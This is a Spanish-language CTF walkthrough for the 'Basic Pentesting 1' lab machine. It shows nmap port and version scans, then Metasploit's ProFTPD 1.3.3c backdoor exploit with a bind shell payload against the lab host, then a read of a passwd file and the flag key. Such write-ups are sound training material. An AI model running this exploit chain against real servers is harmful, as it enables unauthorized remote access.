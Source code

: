 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=550&height=70&lines=BASIC_PENTESTING_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/basic-pentesting-1,216/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Basic-pentesting-1?q=%2Fbasic_pentesting_1&lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172961150-48b8c567-3639-4b18-af1d-7e9bc11889f4.png)

Puertos Abiertos: [21,22,80]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,80 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172961507-2b06c2d6-c57e-411d-9b03-bc9c575c8644.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** ProFTPD 1.3.3c

- *Paso 3:* Búsqueda de exploit y configuración con Metasploit.
```
msfconsole
search ProFTPD 1.3.3c
``` 
![3](https://user-images.githubusercontent.com/75953873/172962236-7d4263ac-aa91-470f-9383-1c15028ebffc.png)

Seleccionar exploit:
```
use exploit/unix/ftp/proftpd_133c_backdoor
``` 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![4](https://user-images.githubusercontent.com/75953873/172962461-a82db2a0-7a7a-442a-82cd-fc872ca0e0c6.png)

**IP:** 212.129.29.186

Configurar exploit (RHOSTS):
```
set RHOSTS 212.129.29.186 
```
![5](https://user-images.githubusercontent.com/75953873/172962563-26bb8f18-dc3a-47ee-a92f-246874366a7d.png)

Seleccionar payload:
```
set payload cmd/unix/bind_perl
```
![6](https://user-images.githubusercontent.com/75953873/172962786-257bbd0d-e119-4f03-9857-73b16ad4d200.png)

- *Paso 4:* Ejecutar exploit y obtener acceso.
```
exploit
``` 
![7](https://user-images.githubusercontent.com/75953873/172962925-a7d9f6e4-416b-4423-b2d1-ca5eeebbe729.png)

Localizar fichero `passwd` y extraer flag (key):
```
ls
cat passwd
``` 
![8](https://user-images.githubusercontent.com/75953873/172963153-b2d7dac3-f960-4bfc-ab86-ba80d8b4e449.png)

**Key:** b5fc9e0773f9596578e1ff689109c960

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
